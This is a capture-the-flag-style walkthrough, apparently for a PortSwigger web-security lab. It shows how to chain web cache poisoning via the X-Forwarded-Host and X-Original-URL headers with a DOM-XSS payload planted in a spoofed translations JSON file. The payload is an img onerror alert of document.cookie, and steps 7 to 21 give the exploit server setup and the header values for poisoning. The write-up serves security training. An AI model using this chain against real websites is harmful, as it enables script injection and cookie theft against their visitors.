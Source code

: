 # Combining web cache poisoning vulnerabilities

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-combining-vulnerabilities) is susceptible to web cache poisoning, but only if you construct a complex exploit chain. A user visits the home page roughly once a minute and their language is set to English. 

## Reproduction and proof of concept

1. With Burp running, load the website's home page.
2. Use [Param Miner](https://portswigger.net/web-security/web-cache-poisoning#param-miner) to identify that the `X-Forwarded-Host` and `X-Original-URL` headers are supported.
3. In Burp Repeater, experiment with the `X-Forwarded-Host` header and observe that it can be used to import an arbitrary JSON file instead of the `translations.json` file, which contains translations of UI texts.
4. Notice that the website is vulnerable to DOM-XSS due to the way the `initTranslations()` function handles data from the JSON file for all languages except English.
5. Go to the exploit server and edit the file name to match the path used by the vulnerable website:

```html
/resources/json/translations.json
```
    
6. In the head, add the header `Access-Control-Allow-Origin: *` to enable CORS.
7. In the body, add malicious JSON that matches the structure used by the real translation file. Replace the value of one of the translations with a suitable XSS payload, for example:

```text
{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "</a><img src=1 onerror='alert(document.cookie)' />",
            "Description:": "Descripción"
        }
    }
}
```

8. For the rest of this solution we will use Spanish to demonstrate the attack. Please note that if you injected your payload into the translation for another language, you will also need to adapt the examples accordingly.
    Store the exploit.
9. In Burp, find a `GET` request for `/?localized=1` that includes the lang cookie for Spanish:
    `lang=es`
10. Send the request to Burp Repeater. Add a cache buster and the following header, remembering to enter your own exploit server ID:

```text
X-Forwarded-Host: exploit-server-id.exploit-server.net
```
    
11. Send the response and confirm that your exploit server is reflected in the response.
12. To simulate the victim, load the URL in the browser and confirm that the `alert()` fires.
13. You have successfully poisoned the cache for the Spanish page, but the target user's language is set to English. As it's not possible to exploit users with their language set to English, you need to find a way to forcibly change their language.
14. In Burp, go to **Proxy -> HTTP history** and study the requests and responses that you generated. Notice that when you change the language on the page to anything other than English, this triggers a redirect, for example, to `/setlang/es`. The user's selected language is set server side using the `lang=es` cookie, and the home page is reloaded with the parameter `?localized=1`.
15. Send the GET request for the home page to Burp Repeater and add a cache buster.
16. Observe that the `X-Original-URL` can be used to change the path of the request, so you can explicitly set `/setlang/es`. However, you will find that this response cannot be cached because it contains the `Set-Cookie` header.
17. Observe that the home page sometimes uses backslashes as a folder separator. Notice that the server normalizes these to forward slashes using a redirect. Therefore, `X-Original-URL: /setlang\es` triggers a `302` response that redirects to `/setlang/es`. Observe that this `302` response is cacheable and, therefore, can be used to force other users to the Spanish version of the home page.
18. You now need to combine these two exploits. First, poison the `GET /?localized=1` page using the `X-Forwarded-Host` header to import your malicious JSON file from the exploit server.
19. Now, while the cache is still poisoned, also poison the `GET / page` using `X-Original-URL: /setlang\es` to force all users to the Spanish page.
20. To simulate the victim, load the English page in the browser and make sure that you are redirected and that the `alert()` fires.
21. Replay both requests in sequence to keep the cache poisoned on both pages until the victim visits the site and the lab is solved.

## Exploitability

An attacker will need to poison the cache with multiple malicious responses simultaneously and coordinate this with the victim's browsing behaviour.  

